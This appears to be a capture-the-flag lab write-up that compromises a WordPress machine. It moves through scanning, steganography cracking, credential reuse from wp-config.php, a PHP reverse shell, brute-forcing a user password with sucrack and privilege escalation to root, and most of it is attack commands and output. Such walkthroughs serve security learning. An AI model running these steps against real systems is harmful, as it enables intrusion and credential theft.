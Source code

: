 # Diffrent CTF

### Task 1 Basic scan
can be done with nmap and gobuster

###### Nmap scan

`$ nmap -vv -p- IPADDR`

    Discovered open port 80/tcp on 10.10.228.110
    Discovered open port 21/tcp on 10.10.228.110
    PORT   STATE SERVICE REASON
    21/tcp open  ftp     syn-ack
    80/tcp open  http    syn-ack


###### gobuster result

`$ gobuster dir -u http://IPADDR -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -t 30`

    /wp-content           (Status: 301) [Size: 319] [--> http://10.10.228.110/wp-content/]
    /a[REDACTED]       (Status: 301) [Size: 322] [--> http://10.10.228.110/a[REDACTED]/]
    /wp-includes          (Status: 301) [Size: 320] [--> http://10.10.228.110/wp-includes/]  
    /javascript           (Status: 301) [Size: 319] [--> http://10.10.228.110/javascript/]   
    /wp-admin             (Status: 301) [Size: 317] [--> http://10.10.228.110/wp-admin/]     
    /phpmyadmin           (Status: 301) [Size: 319] [--> http://10.10.228.110/phpmyadmin/] 


### Task 2 Localhost
`http://IPADDR/a[REDACTED]`

[![/a](https://i.imgur.com/KGz41yt.png "/a")](https://i.imgur.com/KGz41yt.png "/a")

now we have a image and wordlist looks like a job for stegcracker
password was at the eof took some time to crack

`$ stegcracker austrailian-bulldog-ant.jpg wordlist.txt`

    Successfully cracked file with password: [REDACTED]
    Tried 49--- passwords
    Your file has been written to: austrailian-bulldog-ant.jpg.out
    [REDACTED]

`$ cat austrailian-bulldog-ant.jpg.out `

    RlRQL[REDACTED]nRwClBBU1M6IDEyM2FkYW5hY3JhY2s=

`$ cat austrailian-bulldog-ant.jpg.out  | base64 -d`

    FTP-LOGIN
    USER: hakanftp
    PASS: 123[REDACTED]

`$ ftp IPADDR`

    ftp> ls -la
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxrwxrwx    8 1001     1001         4096 Jan 15 12:26 .
    drwxrwxrwx    8 1001     1001         4096 Jan 15 12:26 ..
    -rw-------    1 1001     1001           88 Jan 13 11:06 .bash_history
    drwx------    2 1001     1001         4096 Jan 11 10:29 .cache
    drwx------    3 1001     1001         4096 Jan 11 10:29 .gnupg
    -rw-r--r--    1 1001     1001          554 Jan 10 22:26 .htaccess
    drwxr-xr-x    2 0        0            4096 Jan 14 16:49 announcements
    -rw-r--r--    1 1001     1001          405 Feb 06  2020 index.php
    -rw-r--r--    1 1001     1001        19915 Feb 12  2020 license.txt
    -rw-r--r--    1 1001     1001         7278 Jun 26  2020 readme.html
    -rw-r--r--    1 1001     1001         7101 Jul 28  2020 wp-activate.php
    drwxr-xr-x    9 1001     1001         4096 Dec 08 22:13 wp-admin
    -rw-r--r--    1 1001     1001          351 Feb 06  2020 wp-blog-header.php
    -rw-r--r--    1 1001     1001         2328 Oct 08  2020 wp-comments-post.php
    -rw-r--r--    1 0        0            3194 Jan 11 09:55 wp-config.php
    drwxr-xr-x    4 1001     1001         4096 Dec 08 22:13 wp-content
    -rw-r--r--    1 1001     1001         3939 Jul 30  2020 wp-cron.php
    drwxr-xr-x   25 1001     1001        12288 Dec 08 22:13 wp-includes
    -rw-r--r--    1 1001     1001         2496 Feb 06  2020 wp-links-opml.php
    -rw-r--r--    1 1001     1001         3300 Feb 06  2020 wp-load.php
    -rw-r--r--    1 1001     1001        49831 Nov 09 10:53 wp-login.php
    -rw-r--r--    1 1001     1001         8509 Apr 14  2020 wp-mail.php
    -rw-r--r--    1 1001     1001        20975 Nov 12 14:43 wp-settings.php
    -rw-r--r--    1 1001     1001        31337 Sep 30  2020 wp-signup.php
    -rw-r--r--    1 1001     1001         4747 Oct 08  2020 wp-trackback.php
    -rw-r--r--    1 1001     1001         3236 Jun 08  2020 xmlrpc.php
    226 Directory send OK.
    ftp> 

[Click to download php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php "Click to download php reverse shell")

[i used my own php shell click to go github page](https://github.com/rootkral4/phpreverseshell "i used my own php shell click to go github page")

i tried to upload php shell but server responded with 404
so download and read wp-config.php

` $ head -n 40 wp-config.php`

    define( 'DB_NAME', 'phpmyadmin1' );
    
    /** MySQL database username */
    define( 'DB_USER', 'phpmyadmin' );
    
    /** MySQL database password */
    define( 'DB_PASSWORD', '[REDACTED]' );
    
    /** MySQL hostname */
    define( 'DB_HOST', 'localhost' );
    
    /** Database Charset to use in creating database tables. */
    define( 'DB_CHARSET', 'utf8mb4' );
    
    /** The Database Collate type. Don't change this if in doubt. */
    define( 'DB_COLLATE', '' );


`http://IPADDR/phpmyadmin`

logged in via creds in wp-config.php

[![](https://i.imgur.com/5Wjx7Zr.png)](https://i.imgur.com/5Wjx7Zr.png)

there is 2 phpmyadmin db
phpmyadmin1 -> wp_options -> site_url was a subdomain

`$ nano /etc/hosts` //add subdomain to hosts

`http://subdomain.adana.thm/`

this subdomain was same as main website
when i move to /phpshell.php, yes! php shell is here
got reverse shell finally

    remote@machine$ cd ..
    remote@machine$ cd html
    remote@machine$ cat wwe3bbfla4g.txt
    THM{343a7[REDACTED]c346edff}

then i searched for suid files nad found this one but others has no execute perm

    -rwxr-x--- 1 root hakanbey 238080 Nov  5  2017 /usr/bin/find

In this case, we know that we need to switch to the hakanbey user. Due to the similarity of stego and ftp passwords, the password of the hakanbey user can also be in this format.
123adana is prefix for passwords, created a wordlist(used wordlist.txt on ftp) with this prefix
after that i sent sucrack to remote machine 

`remote@machine$ dpkg -x sucrack_1.2.3-5+b1_amd64.deb sucrack`

`remote@machine$ sucrack -w 100 -b 500 -u hakanbey wordlist.txt`

after short period of time sucrack was succed

`remote@machine$ su hakanbey`

    THM{8ba9d7[REDACTED]d00e67127} //user flag

`remote@machine$ find / -perm -4000 -type f 2>/dev/null` // scanning for suid again

    /usr/bin/binary

`remote@machine$ ltrace ./binary`

    strcat("***", "****")                                                                                    = "******"
    strcat("******", "**")                                                                                  = "********"
    strcat("*********", "***")                                                                               = "************"
    strcat("************", "**")                                                                             = "*************"
    printf("I think you should enter the cor"...)                                                            = 52
    __isoc99_scanf(0x561c5b518edd, 0x7fff99056ac0, 0, 0I think you should enter the correct string here ==>^C <no return ...>
    --- SIGINT (Interrupt) ---
    +++ killed by SIGINT +++

got string

`remote@machine$ ./binary`

    I think you should enter the correct string here ==>w*************
    Hint! : Hexeditor 00000020 ==> ???? ==> /home/hakanbey/root.jpg (CyberChef)
    
    Copy /root/root.jpg ==> /home/hakanbey/root.jpg

    00000000  FF D8 FF E0  00 10 4A 46   49 46 00 01  01 01 00 60                                                                                             ......JFIF.....`
    00000010  00 60 00 00  FF E1 00 78   45 78 69 66  00 00 4D 4D                                                                                             .`.....xExif..MM
    00000020  ** ** ** **  ** ** ** **   ** ** ** **  ** ** ** **                        // hint points this line                                                                     ...=y._..m..i..u
    00000030  00 00 00 56  03 01 00 05   00 00 00 01  00 00 00 68                                                                                             ...V...........h
    00000040  03 03 00 01  00 00 00 01   00 00 00 00  51 10 00 01                                                                                             ............Q...
    00000050  00 00 00 01  01 00 00 00   51 11 00 04  00 00 00 01                                                                                             ........Q.......
    00000060  00 00 0E C4  51 12 00 04   00 00 00 01  00 00 0E C4                                                                                             ....Q...........
    00000070  00 00 00 00  41 64 6F 62   65 20 49 6D  61 67 65 52                                                                                             ....Adobe ImageR
    00000080  65 61 64 79  00 00 00 01   86 A0 00 00  B1 8F FF DB                                                                                             eady............
    00000090  00 43 00 02  01 01 02 01   01 02 02 02  02 02 02 02                                                                                             .C..............
    000000A0  02 03 05 03  03 03 03 03   06 04 04 03  05 07 06 07                                                                                             ................

`https://cyberchef.com`

From HEX > To Base85
    root:[REDACTED]

`remote@machine$ su root`

    THM{c5a9d3[REDACTED]4466a6c}
